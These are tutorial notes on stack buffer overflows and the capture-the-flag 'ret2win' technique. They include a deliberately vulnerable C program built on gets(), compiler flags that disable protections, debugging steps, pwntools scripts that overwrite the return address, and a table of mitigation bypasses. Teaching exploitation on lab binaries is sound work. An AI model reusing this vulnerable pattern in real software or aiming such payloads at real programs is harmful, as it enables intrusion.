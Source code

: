 
# 📚 Stack Overflow & ret2win& ret functions — Full Exploit Notes

---

## 🧠 What Is a Stack Overflow?

A **stack overflow** occurs when data written to a **stack buffer** exceeds its allocated size and **overwrites adjacent memory** — especially the **saved return address**.

This lets an attacker **redirect execution** to arbitrary code or functions.

---

## 🧨 What Is ret2win?

**ret2win** (short for "return to win") is a **beginner-level exploit** where the attacker:

- **Overflows** a buffer on the stack
    
- **Overwrites** the saved return address
    
- **Redirects execution** to a function like `win()` that prints a flag or spawns a shell
    

> No shellcode needed — just return to an existing function.

---

## 📁 Sample Vulnerable C Program

c



`#include <stdio.h> #include <string.h> #include <stdlib.h>  void win() {     system("cat flag.txt");  // Attacker's goal }  void vuln() {     char buffer[64];         // Stack buffer     printf("Enter your input: ");     gets(buffer);            // ❌ Vulnerable: no bounds check }  int main() {     vuln();     return 0; }`

### 🔥 Vulnerabilities:

- Uses `gets()` → allows **unbounded input**
    
- `win()` is never called by default
    
- Return address can be overwritten to jump to `win()`
    

---

## 🔍 Stack Layout (After vuln is called)

kotlin



`[ buffer (64 bytes)         ] [ saved EBP (4 or 8 bytes)  ] [ return address (4 or 8)   ]  ◄──── overwrite this!`

To hijack control flow:

ini



`payload = [ 'A' * 64 ] + [ 'B' * 8 ] + [ win() address ]`

---

## 🧪 ret2win Exploitation – Step-by-Step

### ✅ 1. Compile with No Protections (Linux)

bash



`gcc -fno-stack-protector -z execstack -no-pie -o vuln vuln.c`

### ✅ 2. Find Address of `win()`

bash



`objdump -d vuln | grep win`

Example:

php-template



`080491e2 <win>:`

(Use this address in the payload)

---

### ✅ 3. Build the Exploit Payload

- 64 bytes to fill buffer
    
- 4–8 bytes for saved EBP
    
- Address of `win()` (in little-endian)
    

python



`from pwn import *  win = p32(0x080491e2)        # Replace with actual win address payload = b"A"*64 + b"B"*4 + win  p = process("./vuln") p.sendline(payload) p.interactive()`

---

### 🧠 ret2win Summary Table

|Element|Description|
|---|---|
|Overflow Type|Stack-based buffer overflow|
|Target|Saved return address|
|Payload|Buffer filler + win() address|
|Protection Bypass|No need to disable NX|
|Complexity|Low – no shellcode needed|

---

## 🛡️ Protections That Can Break ret2win

|Protection|Blocks?|Bypass|
|---|---|---|
|**Stack Canary**|✅|Brute-force, info leak|
|**ASLR**|❌ for static binaries|Leak libc|
|**PIE**|✅|Leak binary base|
|**DEP/NX**|❌|Not needed here|
|**RELRO (Full)**|❌|No GOT overwrite used|

---

## 📜 Common ret2win CTF Pattern

### ✅ Provided:

- `win()` function
    
- Input via `gets()` or `fgets()`
    
- No PIE or stack canary
    

### 🔓 Goal:

- Find offset to return address
    
- Overwrite return address with `win()`'s address
    
- Get the flag!
    

---

## 🧪 ret2win GDB Debugging Tips

bash



`gdb ./vuln b vuln run`

Then use:

- `info frame` – view return address
    
- `x/20x $esp` – inspect stack
    
- `pattern_create` / `pattern_offset` – find overflow offset
    

---

## 📦 Bonus: Python Payload Generator

python



`from pwn import *  offset = 64 + 4               # Buffer + saved EBP win = p32(0x080491e2)         # Replace with correct address  payload = b"A" * offset + win  with open("payload", "wb") as f:     f.write(payload)`

---

## 🔚 Summary

|Concept|Details|
|---|---|
|Stack Overflow|Writes beyond buffer, into return addr|
|ret2win|Redirects execution to a known function|
|Why it works|Return address is overwritten|
|What you need|Address of `win()`, overflow offset|
|Fix|Use `fgets`, enable stack protector, PIE, etc.|
